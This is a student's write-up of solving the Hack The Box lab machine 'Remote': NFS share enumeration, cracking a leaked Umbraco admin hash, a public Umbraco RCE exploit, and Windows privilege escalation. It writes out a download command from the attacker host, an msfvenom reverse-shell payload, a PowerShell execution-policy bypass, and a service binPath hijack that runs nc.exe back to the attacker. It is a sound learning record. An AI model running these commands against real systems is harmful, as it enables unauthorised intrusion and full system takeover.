 # Week 9 - HTB - Remote

![remote](images/remote.png)

Sasha Thomas

May 27th 2020

## Introduction and Materials

This week, I decided to step away from SmashTheStack temporarily and try my hand at another HTB machine.

This box was especially difficult, not only because I had no experience with Windows, but also because it is an active machine, meaning there are no write ups or references available. I didn't need to refer to any write ups for the last box (OpenAdmin), but I at least had the ease of mind that they were available. For this, I was on my own. 

To complete this, I used the MetaSploit Framework, MSFVenom, Python, `netcat`, Nmap, and `mount` (maybe some other tools I'm forgetting)

## Steps to Reproduce

1. As per usual, I used `nmap` to scan `10.10.10.180` with flags set to probe service/version info. A handful of ports were open:

   ![portscan](images/portscan.PNG)

   Not being experienced with Windows, nothing stood out to me, so out of curiosity I hit the IP in my web browser:

   ![acmesite](images/acmesite.png)

   I gave OWASP DirBuster a spin, because it led me down the right path with OpenAdmin, but the results weren't as impressive for this machine. Looking back at my Nmap scan, I started to google the services and ports I didn't recognize (which was pretty much each one). It wasn't until I googled `mountd`, the service running on port 2049, that led me to something interesting. 

2. Some research led me to NFS or Network File System, which allows remote hosts to mount systems/directories over a network. If I could mount a directory from this machine to mine, then this might give me some good information. Running the command `showmount` told me that everyone could mount the directory `/site_backups`:

   ![showmount](images/showmount.PNG)

   Using the `mount` command, I successfully copied `/site_backups` to Kali, and began enumerating! 

   ![mounted](images/mounted.PNG)

   Learning from previous boxes, my goal was to look for any file related to configuration, settings, data, defaults, logs, etc. Eventually, within `/App_Data`, when I printed the contents of `umbraco.sdf`, I found some strings but mostly a sea of unrecognized characters. Having encountered similar situations, I know that the `strings` command is infinitely useful. Using `strings` gave me an interesting log of events, which looked like it included a password hashed using SHA1:

   ![hashedpass](images/hashedpass.PNG)

   Using a SHA1 decryptor, I was able to find a password: "baconandcheese"

3. Since these were credentials for Umbraco, I went to http://10.10.10.180/umbraco and successfully logged into the administrator account!

   ![admin](images/admin.PNG)

   This was great, but my goal remained to get into the machine. Having admin access to the site presumably meant that this was my way in, so more research led me to an exploit for this version of Umbraco CMS (https://github.com/noraj/Umbraco-RCE). This exploit, with admin credentials, allows for remote code injection into the box. After some tweaks to my syntax, I was successfully able to send commands to the machine! 

   ![firstshellkinda](images/firstshellkinda.PNG)

4. This is unfortunately where the pain began. Before this, I was getting by with google searches and a lot of enumeration. From this point on, I ran into a problem at every step of the way. Compounded with trying to get $%&#*@ powershell to do what I wanted it to, I was stuck at this point for the rest of the day. Technically, I owned user, in the sense that I was on the computer and got the user flag. But I didn't really "own" user, I was just injecting code. So I began trying to get a low-privileged shell, because I didn't see a way to escalate what I had to root without an actual shell.

5. I will spare the details of my frustration and speak to the core of my confusion. Because this is a Windows machine, many of the tools and strategies I've heard about or could google quickly didn't apply (as they were mostly Linux based). I felt stuck, because many of the strategies specifically for Windows required a shell or meterpreter. I wasn't using meterpreter, and didn't know how to use what I had to get a shell. Other resources I found suggested using `nc`, the Windows version of `netcat`, but this is obviously not installed on Windows machines by default. So, what if I put it on there? 

6. This was an idea that led me down a rabbithole. Although my RCI was very low-privileged, I could still by default upload to `/Users/Public`, where the user flag was held. I just needed to spin up a quick web-server to host the files, something I've never done before. I was ecstatic to find a super basic Python command, `SimpleHTTPServer`, which takes a port and creates a file sharing server from the directory you are in. I quickly had a rudimentary file sharing server which could host all the malicious files I wanted!

   ![pythonserver](images/pythonserver.PNG)

   (By the time I rooted the box, these were all the things I tried using)

7. Getting the files on the machine using powershell was an endeavor of its own. Technically the "p" and "s" in powershell should be capitalized, but it doesn't deserve the authority. Trying to figure this out took a painstaking half an hour of trying different commands with slightly different syntax. I will never take unix for granted again. Eventually, the command `Invoke-WebRequest` successfully did the job of transferring a file from my machine to `10.10.10.180`. In the end, the syntax isn't too scary, but errors with spaces, backslashes, apostrophes, and quotes, as well as the exploit assuming the powershell flags were incorrect python flags, made the process very tedious. The entire command looked like the following:

   ```bash
   python3 umbraco_exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'Invoke-WebRequest -Uri 'http://KaliIP:8080/file' -OutFile 'C:\Users\Public\Documents\file'
   ```

8. My newfound ability to transfer files led me to more frustration with `netcat` for Windows after I uploaded the exe. After an hour of frustration with permissions, exe's and powershell in general, I took a step back and researched more ways to accomplish what I wanted to. My goal was to upload something that could give me a shell, eject code to run it, and connect back to that on my Kali box. And the Metasploit Framework and MSFVenom actually allow you to do just that. MSFVenom lets you create malicious exe's that will run an exploit, and from my research, it seemed that through MSF, I could create a handler that listened for this and connect back to it, sort of like using MSF but manually performing each step. I created a malicious exe using the following command:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=KaliIP lport=4444 -f exe > payload.exe
   ```

   I copied this over to `/Public` and ran it. Then, on my Kali machine, I ran MSF and used `exploit/multi/handler` with the right port and IP, and to my surprise, this actually worked and got me a meterpreter session!

   ![meterpreter](images/meterpreter.PNG)

9. As cool as this was, it was only half the battle; I still needed to escalate my privileges somehow. I came back to the box the next day ready for lots of enumeration. It was unfortunately my enumeration which led me down a rabbithole which, while I think is possible, was beyond my capacity to figure out. While doing standard checks of the services running on the computer, I found that TeamViewer7 was running. There was nothing else that stood out to me, so I followed this path and started looking at the files and doing research. I found an exploit for old versions of TeamViewer which revealed passwords for the active TeamViewer session. Running this in metasploit gave me a clear hint!

   ![teamviewerexploit](images/teamviewerexploit.PNG)

   Siiiick!!! I just needed an ID for the TeamViewer session. More googling led me to the `reg query` command on Windows, which allowed me to query the registry holding ClientID:

   ![regquery](images/regquery.PNG)

   Converting the hex to decimal, I got 1769137322, a valid TeamViewerID. 

10. But no dice. I double-checked my number in TeamViewer, the password, ID, but nothing worked. I made sure the TeamViewer exe's were running using the `net start` command, but I got nowhere. Considering the name of the box and the ability to get the password and ID, I believe this is somehow a valid solution, but after a few hours of hitting my head against the wall, I looked for other options. 

11. Feeling as if I was starting over, I found some Windows enumeration and privilege escalation scripts, and transferred them to the box. After another half an hour of trying to download these as modules (in order to use the built-in commands), I finally found a loop around (as I didn't have privileges to install powershell modules):

    ```powershell
    powershell -exec bypass -Command "& {Import-Module ./PowerUp.ps1}"
    ```

    Using this allowed me to run the commands from the .ps1 file for that line only. I used the built-in `Invoke-AllChecks` command. The result was interesting; there was a service running as root which I had permission to not only restart, but change some of it's values, including, but not limited to, it's binary path name.

12. This time, I decided to use the `nc.exe` I originally attempted to use, because this time, I could set it to run with parameters. After uploading `nc.exe`, I used `sc config` on the vulnerable service (`UsoSvc`) to set `binPath` to `C:/Users/Public/Documents/nc.exe KalisIP 4444 -e cmd.exe`. 

    ![restart](images/restart.PNG)

13. For this change to take, I stopped the service, opened a `netcat` listener on my Kali box, and started the service again. And I was finally root!!!

    ![rooted](images/rooted.PNG)



## Discussion

First of all, my inexperience with Windows, cmd, and powershell definitely added lots of stress to this already difficult box. Nothing was super mind blowing, it just took me a long time to enumerate and set everything up perfectly, especially since I haven't used netcat or metasploit to drop a shell like that before. I have done something similar using remote code injection with PHP, but this felt like a whole new beast. 

As far as security principles violated, there were serious issues, starting with allowing everyone to copy that initial backup folder (not to mention using an outdated hash algorithm). But, in general, these vulnerabilities seem "realistic" in the sense that they could happen due to a lazy IT department. 

## Conclusion

I'm still upset I couldn't get the TeamViewer exploit to work. I have no idea why it fails to connect to the ID. I will look into it in my own time and see if I can get it to work. Considering the name of the box, and the password I found, it must be intentional, and likely the intended way. I'm not sure if my method was intentional, but it works! 

